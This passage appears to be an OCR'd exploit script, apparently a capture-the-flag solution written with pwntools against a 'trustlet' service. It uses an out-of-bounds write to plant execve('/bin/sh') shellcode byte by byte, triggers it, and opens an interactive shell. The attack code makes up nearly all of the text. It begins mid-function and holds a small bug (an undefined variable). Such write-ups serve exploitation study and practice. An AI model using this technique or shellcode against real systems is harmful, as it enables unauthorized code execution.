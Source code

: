 ```python
    p.send(data)
    written_data = p.recvn(len(data))
    assert p.recvn(1) == "\n"
    return written_data


def write_shellcode(s):
    progress = log.progress("Writing byte")
    for j, byte in enumerate(s):
        progress.status(byte)
        for i in range(2000):
            byte_written = write(1, byte, -0x4000+j, rand_num)
            progress.status("%s (%d/%d) wrote %s attempts: (%d/2000)" % (
                byte, j, len(s), byte_written, i
            ))
            if byte_written == byte:
                break
        else:
            current_byte.failure("Failed to write byte '%s'" % byte)
            raise
    progress.success("Wrote shellcode")


def get_diff_page_index(h1, h2):
    assert len(h1) == len(h2)
    assert h1 != h2

    progress = log.progress("Checking hashes")
    
    for i in range(len(h1)):
        if h1[i] != h2[i]:
            progress.success("Found differing hash, index %d" % i)
            return i
    else:
        progress.failure("Failed to find differing hash")


num_hashes = 0x7fd8

add_trustlet(0)
hashes = get_hashes(0, num_hashes)
assert hashes == get_hashes(0, num_hashes), "Verify they're the same"

add_trustlet(1)

# Write to the previous type 0 trustlet
write(1, "A"*0x30, -0x8000000, 0)
new_hashes = get_hashes(0, num_hashes)
rand_num = get_diff_page_index(hashes, new_hashes)

write_shellcode("1\366VH\270/bin//shPT_\367\356\260;\17\5")

# Call the shellcode
command("c")
trustlet_index(1)
call_type("g")

p.interactive()
```
